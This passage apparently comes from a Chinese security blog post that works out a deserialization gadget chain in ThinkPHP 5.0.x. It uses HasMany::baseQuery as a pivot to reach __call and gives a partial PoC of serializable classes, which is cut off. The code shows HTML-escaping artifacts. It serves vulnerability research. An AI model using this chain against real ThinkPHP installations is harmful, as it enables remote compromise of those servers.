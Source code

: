 按照之前的分析来看，下面的call_user_func_array是无法有效利用的，所以如果要想找跳板的话，必然是利用了baseQuery方法。

[![](https://p0.ssl.qhimg.com/t01251cf6558ee40273.png)](https://p0.ssl.qhimg.com/t01251cf6558ee40273.png)

查看后发现触发条件最简单的是think\model\relation\HasMany类中的baseQuery方法。

```
protected function baseQuery()
    `{`
        if (empty($this-&gt;baseQuery)) `{`
            if (isset($this-&gt;parent-&gt;`{`$this-&gt;localKey`}`)) `{`
                // 关联查询带入关联条件
                $this-&gt;query-&gt;where($this-&gt;foreignKey, $this-&gt;parent-&gt;`{`$this-&gt;localKey`}`);
            `}`
            $this-&gt;baseQuery = true;
        `}`
    `}`
```

具有可控参数和触发__call的条件。后面就算将$this-&gt;query赋值为think\console\Output类实例，然后和前面低版本的一样触发就行。但是这个还存在一个问题。因为前面触发的toArray的if (!empty($this-&gt;append))`{`…`}`分支是在thinkphp5.0.05（包括5.0.05）之后才存在的。也就是说这条链子在thinkphp5.0.04版本是行不通的。这时候我们想起了之前对于thinkphp5.0.03版本的反序列化链的挖掘。

和前面低版本的链子一样，直接触发__call方法，但是此时的Relation已经是抽象类了，无法作为跳板利用。结合之前的分析，这边我们采用think\model\relation\HasMany作为跳板进行构造。和低版本相比，除了中间利用了Relation类的子类作为跳板之外，其它地方没有任何区别。<br>
poc

```
namespace think;


use think\model\relation\HasMany;

class Process
`{`
    private $processPipes;

    private $status;

    private $processInformation;
    public function  __construct()`{`
        $this-&gt;processInformation['running']=true;
        $this-&gt;status=3;
        $this-&gt;processPipes=new HasMany();
    `}`

`}`
 namespace think;
 class Model`{`

 `}`
 namespace think\model;


 use think\Model;
 class Merge extends Model`{`
     public $a='1';
     public function __construct()
     `{`
     `}`
 `}`



namespace think\model\relation;
```